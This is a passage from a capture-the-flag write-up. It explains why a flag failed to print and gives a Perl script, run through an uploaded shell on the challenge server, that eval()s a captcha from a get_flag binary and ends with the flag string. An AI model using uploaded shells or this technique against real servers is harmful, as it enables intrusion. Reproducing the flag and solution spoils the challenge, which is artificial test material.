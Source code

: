 ```perl
in2->flush();

$reply = <out2>;
print STDOUT $reply; #flag :D
```

## Why no flag?

![stream error](https://i.imgur.com/xHQ6DZ5.png)

But, we weren't able to get a flag.<br>
The last line which should print the flag gives us error.<br>
So we downloaded the [binary file](./server/get_flag) and analyzed.

![binary](https://i.imgur.com/pedOtRZ.png)

We discovered `get_flag` binary is openning `flag` not `/flag`, so problem was about cwd(current working directory).<br>
Finally, we add `chdir` in [final perl script](./exploit.pl), run using uploaded shell, then got a flag :D

```perl
#!/usr/bin/env perl 
use warnings;
use strict;
use IPC::Open2;

$| = 1;
chdir "/"; #!!!!!!!!!!!!!!!!!!!!!!!!!!

my $pid = open2(\*out2, \*in2, './get_flag') or die;

my $reply = <out2>;
print STDOUT $reply; #string: solve captcha..
$reply = <out2>;
print STDOUT $reply; #captcha formula

my $answer = eval($reply);
print STDOUT "answer: $answer\n"; 

print in2 " $answer "; #send it to process
in2->flush();

$reply = <out2>;
print STDOUT $reply; #flag :D
```

![FLAG](https://i.imgur.com/M9eJaQe.png)


**`INS{l33t_l33t_l33t_ich_hab_d1ch_li3b}`**
